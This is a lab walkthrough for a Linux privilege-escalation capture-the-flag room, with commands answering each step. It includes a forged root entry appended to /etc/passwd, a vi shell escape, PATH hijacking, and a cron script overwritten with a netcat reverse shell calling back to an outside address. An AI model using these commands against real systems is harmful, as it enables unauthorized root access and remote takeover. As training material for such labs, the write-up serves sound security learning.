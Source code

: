# Common Linux Privesc

## :mag: Enumeration

### #2 **What is the target's hostname?**

```
hostname
```

![](<../../.gitbook/assets/Screenshot from 2020-09-06 11-31-02.png>)

### **#3 Look at the output of /etc/passwd how many "user\[x]" are there on the system?**

```
grep '^user' /etc/passwd
```

![](<../../.gitbook/assets/Screenshot from 2020-09-06 11-42-17.png>)

### #4 **How many available shells are there on the system?**

```
cat /etc/shells
```

![](<../../.gitbook/assets/Screenshot from 2020-09-06 11-32-57.png>)

### #5 **What is the name of the bash script that is set to run every 5 minutes by cron?**

```
cat /etc/crontab
```

![](<../../.gitbook/assets/Screenshot from 2020-09-06 11-33-41.png>)

### **#6 What critical file has had its permissions changed to allow some users to write to it?**

```
ls -l /etc/passwd
```

![](<../../.gitbook/assets/Screenshot from 2020-09-06 11-46-23.png>)

## :squid: Abusing SUID/GUID Files

### **#1 What is the path of the file in user3's directory that stands out to you?**

```
find /home/user3 -type f -perm -4000 2>/dev/null
```

![](<../../.gitbook/assets/Screenshot from 2020-09-06 11-53-47.png>)

## :key: Exploiting Writeable /etc/passwd

### #2 Having read the information above, what direction privilege escalation is this attack?

```
vertical
```

### #3 What is the hash created by using this command with the salt, **"new"** and the password **"123"**?

```
openssl passwd -1 -salt new 123
```

![](<../../.gitbook/assets/Screenshot from 2020-09-06 12-04-10.png>)

### #4 What would the /etc/passwd entry look like for a root user with the username "new" and the password hash we created before?

```
new:$1$new$p7ptkEKU1HnaHpRtzNizS1:0:0:root:/root:/bin/bash
```

### #6 Now, use **"su"** to login as the "new" account, and then enter the password.

```
echo 'new:$1$new$p7ptkEKU1HnaHpRtzNizS1:0:0:root:/root:/bin/bash' >> /etc/passwd
su - new
```

![](<../../.gitbook/assets/Screenshot from 2020-09-06 12-09-47.png>)

## :writing\_hand: Escaping Vi Editor

### **#2 Let's use the "sudo -l" command, what does this user require (or not require) to run vi as root?**

```
sudo -l
sudo /usr/bin/vi
```

![](<../../.gitbook/assets/Screenshot from 2020-09-06 12-17-36.png>)

### #4 **Now, type ":!sh" to open a shell!**

```
:!sh
```

![](<../../.gitbook/assets/Screenshot from 2020-09-06 12-21-44.png>)

## :date: Exploiting Crontab

### **#3 What is the flag to specify a payload in msfvenom?**

```
-p
```

### #4 **Create a payload using: "msfvenom -p cmd/unix/reverse\_netcat lhost=LOCALIP lport=8888 R"**

```
msfvenom -p cmd/unix/reverse_netcat LHOST=10.9.101.193
```

![](<../../.gitbook/assets/Screenshot from 2020-09-06 12-39-36.png>)

### #5 **What directory is the "autoscript.sh" under?**

```
/home/user4/Desktop
```

### #6 Lets replace the contents of the file with our payload

```
echo 'mkfifo /tmp/blkdu; nc 10.9.101.193 4444 0</tmp/blkdu | /bin/sh >/tmp/blkdu 2>&1; rm /tmp/blkdu' > Desktop/autoscript.sh
```

### #7 **After copying the code into autoscript.sh file we wait for cron to execute the file, and start our netcat listener**

```
nc -nvlp 4444
```

![](<../../.gitbook/assets/Screenshot from 2020-09-06 13-16-17.png>)

## :motorway: Exploiting PATH Variable

### **#2 Let's go to user5's home directory, and run the file "script". What command do we think that it's executing?**

```
ls
```

![](<../../.gitbook/assets/Screenshot from 2020-09-06 13-21-16.png>)

### **#4 What would the command look like to open a bash shell, writing to a file with the name of the executable we're imitating**

```
echo "/bin/bash" > ls
```

### #5 We need to make it an executable. What command do we execute to do this?

```
chmod +x ls
```

### #7 Run the "script" file again, you should be sent into a root bash prompt!

```bash
PATH=/tmp:$PATH ./sript
```

![](<../../.gitbook/assets/Screenshot from 2020-09-06 13-27-13.png>)

## ****:link: **Support Material**

{% embed url="https://gtfobins.github.io/" %}

{% embed url="https://github.com/netbiosX/Checklists/blob/master/Linux-Privilege-Escalation.md" %}

{% embed url="https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Linux%20-%20Privilege%20Escalation.md" %}

{% embed url="https://sushant747.gitbooks.io/total-oscp-guide/content/privilege_escalation_-_linux.html" %}

{% embed url="https://payatu.com/guide-linux-privilege-escalation" %}

****\
****

### **** ****
